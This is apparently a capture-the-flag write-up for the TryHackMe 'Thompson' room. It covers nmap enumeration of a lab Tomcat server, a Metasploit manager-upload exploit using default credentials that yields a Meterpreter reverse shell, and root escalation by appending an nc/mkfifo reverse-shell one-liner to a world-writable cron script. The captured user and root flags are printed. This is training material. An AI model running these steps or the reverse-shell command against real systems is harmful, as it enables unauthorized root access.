 <code>
   
https://tryhackme.com/room/bsidesgtthompson
cve-2020-1938


## Enumeration

```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap   -p- 10.10.29.119       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:43 CEST
Nmap scan report for 10.10.29.119
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap  -sV -A -p 8080 10.10.29.119
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:45 CEST
Nmap scan report for 10.10.29.119
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5


PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

**Looks like cve-2020-1938**

## try default passwords on web and Get
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

## Try msfconsole
``` Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.29.119     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.28.108      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.28.108:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying c7LfPuhpeMX...
[*] Executing c7LfPuhpeMX...
[*] Undeploying c7LfPuhpeMX ...
[*] Sending stage (57971 bytes) to 10.10.29.119
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.28.108:4444 -> 10.10.29.119:47342) at 2025-06-18 13:13:42 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls
```` 
## Get inital access as user

tomcat@ubuntu:/home/jack$ cat user.txt  
cat user.txt
39400c90bc683a41a8935e4719f181bf



## Privilage Escalation to root
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 18 02:17 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

looks like id.sh is runs every minute with root creads

```
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh
</f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh              
```

## Get root shell
```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.8.28.108] from (UNKNOWN) [10.10.29.119] 33486
sh: 0: can't access tty; job control turned off
# # uid=0(root) gid=0(root) groups=0(root)
# ls
id.sh
test.txt
user.txt
#  cd root
# ls
root.txt
# cat root.txt
d89d5391984c0450a95497153ae7ca3a
```+
